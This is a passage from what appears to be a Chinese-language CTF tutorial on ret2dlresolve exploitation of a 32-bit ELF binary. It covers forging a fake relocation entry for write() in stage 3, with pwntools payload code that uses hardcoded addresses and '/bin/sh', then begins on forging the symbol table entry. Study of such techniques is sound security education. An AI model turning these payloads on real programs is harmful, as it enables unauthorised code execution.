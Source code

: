 
#### Stage 3

Stage3 把 write 函数的**重定位表项**伪造到栈上。

`index_offset = (base_stage + 0x1c) - rel_plt` 计算出在 bss 段中伪造的重定位表项（fake_reloc）关于重定位表（JMPREL）的偏移量。

重定位表 Elf32_Rel 结构如下：

```c
typedef struct {
    Elf32_Addr r_offset;      /* Address */
    Elf32_Word r_info;        /* Relocation type and symbol index */
} Elf32_Rel;
// 8字节 = 4+4
```

`r_offset` 是重定位入口，一般为对应函数 got 地址；

`r_info` 是重定位入口的类型和符号。低8位表示重定位入口类型，高24位表示重定位入口的符号在符号表的下标。

这里根据原始重定位表项伪造成 `fake_reloc = p32(r_offset) + p32(r_info) = p32(write_got) + p32(0x507)`

![image-20221029005808068](https://up-wind.github.io/assets/2022-10-24-ret2dlresolve/image-20221029005808068.png)

```python
···
cmd = b"/bin/sh"
plt_0 = 0x8048370
rel_plt = 0x8048318
index_offset = (base_stage + 0x1c) - rel_plt
write_got = elf.got['write']
r_info = 0x507
fake_reloc = p32(write_got) + p32(r_info)

payload2  = b'AAAA'                           # 0x00
payload2 += p32(plt_0)                        # 0x04
payload2 += p32(index_offset)                 # 0x08
payload2 += b'AAAA'                           # 0x0c
payload2 += p32(1)                            # 0x10
payload2 += p32(base_stage + 80)              # 0x14
payload2 += p32(len(cmd))                     # 0x18
payload2 += fake_reloc                        # 0x1c
payload2 += b'A' * (80 - len(payload2))
payload2 += cmd + b'\x00'                     # 80
payload2 += b'A' * (100 - len(payload2))
···
```



#### Stage 4

Stage4 把 write 函数的**符号表项**伪造到栈上。

符号表 Elf32_Sym 结构如下：

```c
typedef struct
{
    Elf32_Word st_name;       /* Symbol name (string tbl index) */
    Elf32_Addr st_value;      /* Symbol value */
    Elf32_Word st_size;       /* Symbol size */
    unsigned char st_info;    /* Symbol type and binding */
    unsigned char st_other;   /* Symbol visibility */
    Elf32_Section st_shndx;   /* Section index */
} Elf32_Sym;
// 16字节 = 4+4+4+1+1+2
```
